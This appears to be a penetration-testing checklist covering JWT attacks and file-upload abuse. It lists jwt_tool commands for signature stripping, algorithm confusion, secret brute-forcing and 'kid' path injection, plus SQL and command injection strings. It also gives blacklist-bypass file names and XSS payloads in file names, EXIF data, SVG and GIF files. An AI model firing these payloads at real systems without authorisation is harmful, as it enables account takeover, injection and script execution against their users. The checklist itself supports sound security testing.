 > _**\[\[JWT Security Testing]]**_

* [ ] Edit the JWT with another User ID / Email
* [ ] Sensitive Data Exposure
* [ ] null signature `python3 jwt_tool.py JWT_HERE -X n`
* [ ] Multiple JWT test cases\
  `python3 jwt_tool.py -t https://api.example.com/api/working_endpoint -rh "Content-Type: application/json" -rh "Authorization: Bearer [JWT]" -M at`
* [ ] Test JWT secret brute-forcing `python3 jwt_tool.py <JWT> -C -d <Wordlist>`
* [ ] Abusing JWT Public Keys Without knowing the Public Key `https://github.com/silentsignal/rsa_sign2n`
* [ ] Test if algorithm could be changed
  * Change algorithm to None `python3 jwt_tool.py <JWT> -X a`
  * Change algorithm from RS256 to HS256 `python3 jwt_tool.py <JWT> -S hs256 -k public.pem`
  * algorithm confusion with no exposed key -> `docker run --rm -it portswigger/sig2n <token1> <token2>`
* [ ] Test if signature is being validated `python3 jwt_tool.py <JWT> -I -pc <Key> -pv <Value>`
* [ ] Test token expiration time (TTL, RTTL) -> change `exp:`
* [ ] Check for Injection in "kid" element `python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""`
* [ ] SQL injection in jwt header `admin' ORDER BY 1--`
* [ ] Command injection `kid: key.crt; whoami && python -m SimpleHTTPServer 1337 &`
* [ ] Check that keys and secrets are different between ENVs

> _**\[\[File Upload Feature]] Abuse**_

Reference:https://brutelogic.com.br/blog/file-upload-xss/

*   [ ] Quick Analysis

    ```python
    -----------------------------------------------------------------
    upload.random123		   ---	To test if random file extensions can be uploaded.
    upload.php			       ---	try to upload a simple php file.
    upload.php.jpeg 		   --- 	To bypass the blacklist.
    upload.jpg.php 		     ---	To bypass the blacklist. 
    upload.php 			       ---	and Then Change the content type of the file to image or jpeg.
    upload.php*			       ---	version - 1 2 3 4 5 6 7.
    upload.PHP			       ---	To bypass The BlackList.
    upload.PhP			       ---	To bypass The BlackList.
    upload.pHp			       ---	To bypass The BlackList.
    upload.htaccess 		   --- 	By uploading this [jpg,png] files can be executed as php with milicious code within it.
    pixelFlood.jpg			   ---	To test againt the DOS.
    frameflood.gif			   ---	upload gif file with 10^10 Frames
    Malicious zTXT  		   --- 	upload UBER.jpg 
    Upload zip file			   ---	test againts Zip slip (only when file upload supports zip file)
    Check Overwrite Issue	 --- 	Upload file.txt and file.txt with different content and check if 2nd file.txt overwrites 1st file
    SVG to XSS			       ---	Check if you can upload SVG files and can turn them to cause XSS on the target app
    SQLi Via File upload	 ---	Try uploading `sleep(10)-- -.jpg` as file
    ----------------------------------------------------------------------
    ```
* [ ] Test for IDOR By changing the object references \[filename, IDs,.....]
* [ ] EXIF Geo-location Data Not Stripped From Uploaded Images > Manual User Enumeration
* [ ] [xss\_comment\_exif\_metadata\_double\_quote](https://hackerone.com/reports/964550)
* [ ] XSS in filename `"><img src=x onerror=confirm(88)>.png`
* [ ] XSS metadata `exiftool -Artist=’ “><img src=1 onerror=alert(document.domain)>’ 88.jpeg`
* [ ] XSS in SVG `<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>`
* [ ] GIF to XSS `GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;`
* [ ] [**XSS in PDF**](https://drive.google.com/file/d/1JQ\_DVGdopanC59hnf6TF1dOwNsF\_wkFY/view)
* [ ] [ZIP TO XXE](https://hackerone.com/reports/105434)